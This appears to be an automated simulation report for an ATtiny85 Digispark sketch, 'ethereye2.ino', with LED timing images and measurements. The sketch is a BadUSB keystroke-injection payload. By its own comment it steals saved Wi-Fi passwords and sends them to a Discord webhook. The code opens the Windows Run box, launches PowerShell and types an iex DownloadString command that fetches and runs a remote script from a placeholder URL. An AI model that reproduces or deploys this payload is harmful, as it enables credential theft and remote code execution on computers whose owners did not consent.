
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 104.5 s:

Timing chart, 0 to 106.0 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 4.7 s, → LOW 90.0 s later, → HIGH 9.7 s later

The sketch:

ethereye2.ino
```cpp
/*
  EtherEye payload will grab saved Wifi password and will send them to your Discord Webhook.
*/
#include "DigiKeyboard.h"

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //Start Windows Run
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("powershell"); //Jumping to temporary dir
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("iex ((New-Object System.Net.WebClient).DownloadString('PATH-TO-YOUR-PS1-SCRIPT-HERE'))");
  DigiKeyboard.delay(500);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```
